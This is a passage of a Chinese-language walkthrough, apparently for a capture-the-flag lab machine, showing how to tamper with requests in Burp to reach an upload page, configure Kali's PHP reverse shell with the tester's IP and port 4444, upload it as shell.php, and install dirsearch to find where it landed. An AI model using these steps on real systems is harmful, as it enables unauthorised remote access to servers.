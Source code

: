 * 點選Forward之後，就可以成功進到Uploads介面
![](https://i.imgur.com/DewLZDy.png)

* 首先將PHP Reverse Shell複製到當前目錄，修改一下檔案內容
```
cp /usr/share/webshells/php/php-reverse-shell.php .
vim php-reverse-shell.php
```
![](https://i.imgur.com/55CKacD.png)

* 輸入自己的主機IP以及Port 4444

![](https://i.imgur.com/XVHSE2n.png)

* 重新命名一下檔案名稱為shell.php，並Uploads該檔案
```
mv php-reverse-shell.php shell.php
```
![](https://i.imgur.com/4PxVmx3.png)

* 上傳成功(需要重複前面所提的Burp Intercepts步驟，修改參數為superadmin & ID後Forward)

![](https://i.imgur.com/b1kp6hp.png)

* 我們需要知道檔案上傳後，會被儲存在哪裡，因此使用[dirsearch](https://github.com/maurosoria/dirsearch) tool!

* 由於Kali預設沒有dirsearch工具，需要從Github上面clone下來並且安裝，這邊簡單的帶過安裝過程：

為了安裝上方便，我們先切換為root
```
su root
```
打算將檔案載到opt目錄，所以先切換一下

```
cd /opt

ls
```
從Git上面clone下來
```
git clone https://github.com/maurosoria/dirsearch.git
```
切換到dirsearch目錄下
```
cd dirsearch
```
需要使用pip3自動配置環境，因此需要安裝pip3，並檢查版本，最後執行自動配置
```
apt install python3-pip -y
pip3 --version
pip3 install -r requirements.txt
```
執行dirsearch
```
python3  dirsearch.py -u http://10.10.10.28/ -w /usr/share/SecLists/Discovery/Web-Content/raft-large-directories.txt
```
![](https://i.imgur.com/zj35jpl.png)
